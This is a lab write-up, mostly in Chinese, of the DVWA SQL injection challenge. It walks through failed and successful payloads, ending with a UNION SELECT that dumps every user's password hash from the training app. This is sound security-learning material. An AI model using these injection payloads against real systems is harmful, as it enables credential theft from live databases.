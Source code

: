 # SQL Injection
> Objective: There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

這次點開會有新的視窗跑出來，在上面可以用帳號 id query 帳號資訊，要留意的是返回的資訊是兩個欄位，所以要 UNION SELECT 時也要選兩個欄位

### 觀察

用的是 POST

```
POST http://dvwa.localtest/vulnerabilities/sqli/session-input.php
```

```
id=hello&Submit=Submit
```

```
id=2 UNION SELECT last_name,password FROM users -- -
```
壞了 QQ

基本款無效

```sql
1' OR 1='1
```

```
ID: 1' OR 1='1
First name: admin
Surname: admin
```
It works

參考 sqlmap 打 low 難度使用的 payload，運氣好就中了

```sql
1' OR 1=1#
```

```
ID: 1' OR 1=1#
First name: admin
Surname: admin

ID: 1' OR 1=1#
First name: Gordon
Surname: Brown

ID: 1' OR 1=1#
First name: Hack
Surname: Me

ID: 1' OR 1=1#
First name: Pablo
Surname: Picasso

ID: 1' OR 1=1#
First name: Bob
Surname: Smith
```
加上 UNION

```sql
1' UNION SELECT user_id,password FROM users WHERE 1=1 #
```

### Done
```sql
ID: 1' UNION SELECT user_id,password FROM users WHERE 1=1 #
First name: admin
Surname: admin

ID: 1' UNION SELECT user_id,password FROM users WHERE 1=1 #
First name: 1
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' UNION SELECT user_id,password FROM users WHERE 1=1 #
First name: 2
Surname: e99a18c428cb38d5f260853678922e03

ID: 1' UNION SELECT user_id,password FROM users WHERE 1=1 #
First name: 3
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' UNION SELECT user_id,password FROM users WHERE 1=1 #
First name: 4
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1' UNION SELECT user_id,password FROM users WHERE 1=1 #
First name: 5
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
